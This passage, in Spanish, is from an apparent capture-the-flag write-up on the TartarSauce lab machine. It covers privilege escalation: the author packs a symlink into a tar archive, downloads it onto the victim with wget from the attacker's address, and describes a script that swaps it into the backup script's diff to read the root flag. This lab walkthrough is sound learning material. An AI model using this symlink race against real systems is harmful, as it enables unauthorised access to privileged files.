 ![](/assets/img/commons/TartarSauce/terminal8.png)

una vez creado el enlace simbolico, volvemos a comprimir el fichero pero ya con el enlace simbolico 

```console
$ tar -zcvf comprimido.tar var/www/html
```
ahora en la máquina victima vamos a descargarnos ese tar

```console
$ onuma@TartarSauce:/dev/shm$ wget http://10.10.14.6/comprimido.tar
--2023-02-21 11:46:59--  http://10.10.14.6/comprimido.tar
Connecting to 10.10.14.6:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 11542354 (11M) [application/x-tar]
Saving to: 'comprimido.tar'

comprimido.tar                                             100%[=======================================================================================================================================>]  11.01M  1.05MB/s    in 9.3s    

2023-02-21 11:47:08 (1.18 MB/s) - 'comprimido.tar' saved [11542354/11542354]
```
una vez ya con el tar, nos creamos un pequeño script  para automatizar la tarea, donde jugando con expresiones regulares me agarre el valor del hash que crea el script de 40 carácteres, una vez que lo tenga, copiaré mi comprimido.tar donde tiene el enlace simbolico  a /var/tmp/$filename donde la variable $filename será el archivo que crea el script backuper, para que cuando verifique y haga el diferencial entre los dos archivos . se quede con mi comprimido.tar y me reporte la flag del sistema de root